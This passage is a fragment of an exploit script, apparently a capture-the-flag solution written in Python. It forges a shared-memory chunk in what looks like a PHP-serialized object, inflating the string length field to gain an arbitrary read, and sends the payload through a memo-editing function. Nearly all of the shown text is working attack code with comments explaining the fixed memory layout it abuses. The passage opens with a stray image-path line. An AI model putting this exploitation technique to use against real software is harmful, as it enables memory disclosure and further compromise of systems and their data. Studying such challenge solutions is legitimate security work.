 log.info(shm_chunk)

# The virtual mapping is stable so we have for each execution
###########################
# SHARED_MEMORY (notepad)
# anon_segment
# ld segments
# SHARED_MEMORY (memo, but in reality is a remapping of notepad so it have the same content)
# remaining ld segments
###########################

# The distance is fixed
# Distance is where the chunk starts
distance = 254752

# We can fake the size of the string to get partial arbitrary read
# But we need to land in address that starts with '";'
# ld segments are at fixed distance from the shared memory so we can use arbitrary write to fix this

shm_object.end = distance

# After 's:' we specify the length of the string, how many bytes read before meet '";'
shm_chunk.content = shm_chunk.content.replace(b"s:50", f"s:{distance - 30}".encode())
shm_chunk.length = 0xDEADBEEF

payload = shm_object.get() + shm_chunk.get()
log.info(f"Fake objects:\n{shm_object}\n{shm_chunk}")

edit_memo(r, payload)
